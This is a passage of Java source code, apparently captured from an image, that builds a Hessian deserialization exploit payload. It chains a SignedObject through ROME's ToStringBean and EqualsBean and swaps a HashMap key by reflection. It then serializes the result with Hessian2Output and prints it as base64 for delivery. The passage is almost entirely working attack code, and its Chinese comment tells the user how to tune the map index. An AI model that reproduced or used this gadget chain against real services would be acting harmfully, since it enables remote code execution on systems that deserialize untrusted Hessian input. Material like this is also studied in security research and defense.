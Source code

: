 ```
        setFieldValue(bean,"_obj",templates);


        KeyPairGenerator kpg = KeyPairGenerator.getInstance("DSA");
        kpg.initialize(1024);
        KeyPair kp = kpg.generateKeyPair();
        SignedObject signedObject = new SignedObject(map, kp.getPrivate(),Signature.getInstance("DSA"));
//        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
//        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
//        objectOutputStream.writeObject(map);
//        SignedObject signedObject = new SignedObject(new HashMap(), kp.getPrivate(), Signature.getInstance("DSA"));
//
//        setFieldValue(signedObject,"content",byteArrayOutputStream.toByteArray());

        ToStringBean toStringBean = new ToStringBean(SignedObject.class,signedObject);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap s = new HashMap();
        s.put("a",1);
        Field field = s.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(s);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node,equalsBean);
        }

        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream1);
        hessian2Output.writeObject(s);
        hessian2Output.close();
        Base64.Encoder base = Base64.getEncoder();
        String base64 = base.encodeToString(byteArrayOutputStream1.toByteArray());
        System.out.println(base64);
//        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream1.toByteArray());
//        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
//        hessian2Input.readObject();
    }

        public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
```